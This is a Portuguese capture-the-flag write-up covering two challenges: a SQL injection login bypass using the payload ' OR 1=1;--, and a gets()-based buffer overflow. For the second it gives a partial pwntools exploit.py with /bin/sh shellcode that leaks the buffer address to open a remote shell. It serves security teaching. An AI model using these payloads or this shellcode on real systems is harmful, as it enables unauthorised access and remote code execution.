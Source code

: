 Podemos perceber que as credenciais inseridas pelo utilizador, e que são enviadas no pedido, são concatenadas na string que representa a query, sem qualquer tipo de proteção, o que torna esta query vulnerável a uma SQL injection. Existem várias formas de explorar esta vulnerabilidade para conseguir fazer login como qualquer utilizador deste serviço ("admin" neste caso). No nosso caso, usamos a string `admin` como username e `' OR 1=1;--` como password. Desta forma, a condição do `WHERE` será sempre verdadeira.

A query resultante seria:
```sql
SELECT username FROM user WHERE username = 'admin' AND password = '' OR 1=1; --'
```

## Desafio 2

Output do `checksec`:
```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```
A única proteção no executável é PIE(Position Independent Executable). Atendendo a isto, percebemos que é possível realizar um ataque `buffer overflow`

Ao analisar o ficheiro `main.c` encontramos a vulnerabilidade que nos permite realizar esse ataque.
```c
char buffer[100];

(...)

gets(buffer);
```
A função `gets` lê caracteres do standard input, até encontrar uma nova linha ou um `EOF`, sem limite ao número de caracteres, o que neste caso nos permite escrever além dos 100 bytes reservados para `buffer`. O programa também dá output ao endereço de `buffer` a cada execução, pelo que podemos usá-lo para calcular o return address.

O script que usamos abre uma conexão ao servidor, faz parsing da mensagem recebida para obter o endereço e cria um payload com shellcode de modo a abrir uma shell remotamente. Com a shell criada, fazemos `cat flag.txt` para obter o valor da flag.

exploit.py
```python
import sys, socket
from pwn import remote, process

# 32bit shellcode
shellcode = (
  '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f'
  '\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31'
  '\xd2\x31\xc0\xb0\x0b\xcd\x80'
).encode('latin-1')

def exploit(hostname, port):
    r = remote(hostname, port)
    # r = process('./program')

    data = r.recv(1024).decode('utf-8')

    # Get second line
    l = data.split('\n')[1]

    # Get buffer address as an integer
    index = l.index('0x')
    addr = int(l[index:index+10], 16)
```